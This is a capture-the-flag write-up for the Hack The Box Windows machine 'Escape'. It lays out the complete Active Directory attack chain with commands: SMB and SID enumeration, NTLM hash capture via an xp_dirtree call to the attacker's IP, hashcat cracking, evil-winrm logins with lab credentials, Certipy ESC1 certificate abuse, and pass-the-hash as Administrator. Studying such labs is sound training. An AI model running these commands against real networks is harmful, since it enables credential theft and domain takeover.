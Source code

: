 ```yaml
---
date: 2025-02-28
categories: [Windows, Medium, AD]
---
```


![Escape](https://labs.hackthebox.com/storage/avatars/80936664b3da83a92b28602e79e47d79.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [Geiseric](https://app.hackthebox.com/users/184611)        | [Hack The Box](https://www.hackthebox.com/)     | Medium           | Windows   |

---









- The first step is to perform a scan of the open ports and then list the versions and technologies used on the open ports.
	
	```python
	nmap -p- --open -vvv --min-rate 3000 -Pn -sS 10.10.11.202 -oG scan
	/opt/extractports scan
	nmap -p53,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389,49667,49689,49690,49709,49720 -sCV -Pn 10.10.11.202 -oN ports
	```
	![[Pasted image 20250208134014.png]]

-  I found the domain `sequel.htb`, I added it to the file in the `hosts` file

- When I see an open port with a dns service, I list the mail servers and find another domain that I add to the `hosts` file.
	
	```python
	dig @10.10.11.202 sequel.htb mx
	```
	
	![image](https://github.com/user-attachments/assets/359d1f25-735f-4ede-a61e-7ad484dcc439)

- Ready the shared resources by smb with guest credentials.
	
	```python
	netexec smb 10.10.11.202 -u guest -p "" --shares
	```
	
  ![image](https://github.com/user-attachments/assets/f42442ed-a6f4-40da-a02a-59a4143cc6c4)

- Seeing that I have read permissions on the IPC$ folder, I can list the system users.
	
	```python
	impacket-lookupsid  sequel.htb/Guest@10.10.11.202
	```

	![image](https://github.com/user-attachments/assets/0469a9ac-f6f2-4be6-a6ce-d5851e4380b8)

- As I also have read permissions on the Public folder, I connect to it and find a pdf file 
	
	```python
	smbclient -U guest \\\\10.10.11.202\\Public
	```
	
	![image](https://github.com/user-attachments/assets/84307978-f036-4bc7-a530-43a2296f6cf6)

- Inside the document we find some credentials to connect to Microsoft SQL Server

	![image](https://github.com/user-attachments/assets/25eb3504-d29f-4192-b2d6-000b946b2b37)

	![image](https://github.com/user-attachments/assets/ea0168b1-3eed-41b2-881b-9a69b9f284b7)

- I log on and start looking for something interesting within the boards but find nothing remarkable. I also don't have the possibility to execute system commands
	
	```python
	impacket-mssqlclient sequel.htb/PublicUser:GuestUserCantWrite1@10.10.11.202
	```

- After checking the tables for information and not finding anything, I decide to stay on listen with reply and make a query against my ip to see the NTLMv2 hash.

```python
EXEC master..xp_dirtree "\\10.10.14.24\share\"
```

![image](https://github.com/user-attachments/assets/f99c1007-9fac-4034-81e5-faee86c842cd)

- I break the hash and get to see the clear text password of the sql_svc user. 
	
	```python
	hashcat -m 5600  hash /usr/share/wordlists/rockyou.txt --show
	```

- With this user I connect to the system via winrm and after enumerating the system I find a sql server log file. Inside I find the credentials of the user Ryan.Cooper in clear text.
	
	```python
	evil-winrm -i 10.10.11.202 -u sql_svc -p REGGIE1234ronnie
	```
	
	![image](https://github.com/user-attachments/assets/9c0b6101-40c2-452f-95ed-80f41f694f66)
	
  ![image](https://github.com/user-attachments/assets/3a6f9043-8025-4abe-b962-f5762141f785)

- With this credentials I list the certificate templates. I find that with these credentials it is vulnerable to an ESC1 attack.
	
	```python
	certipy-ad find -u Ryan.Cooper -p NuclearMosquito3  -dc-ip 10.10.11.202 -stdout -enabled -vulnerable
	```
	
	![image](https://github.com/user-attachments/assets/a5e1444a-dc5e-450b-aa24-aea4623ffd20)

- Following the steps to exploit [ESC1](https://adminions.ca/books/adcs-abusing-active-directory-certificate-service/page/esc1), we can obtain a .pfx file with which we can connect to the system.  
	
	```python
	certipy-ad req -u Ryan.Cooper@sequel.htb -p "NuclearMosquito3" -ca sequel-DC-CA -template UserAuthentication -upn administrator@sequel.htb -dc-ip 10.10.11.202
	```
	
  ![image](https://github.com/user-attachments/assets/e4b12e23-a9c6-447e-9c3b-ed04cfaae640)

- Authenticate with the certificate to obtain the administrator's nt hash
	
	```python
	certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.202
	```
	
	![image](https://github.com/user-attachments/assets/ff1f3a32-382e-4f15-bed3-534c7fc314b5)

- With this hash we connect to the system and manage to read the second flag.
	
	```python
	evil-winrm -i 10.10.11.202 -u Administrator  -H a52f78e4c751e5f5e17e1e9f3e58f4ee
	```
	
	![image](https://github.com/user-attachments/assets/2a2cdf47-f664-4581-a985-6e88718bddb7)
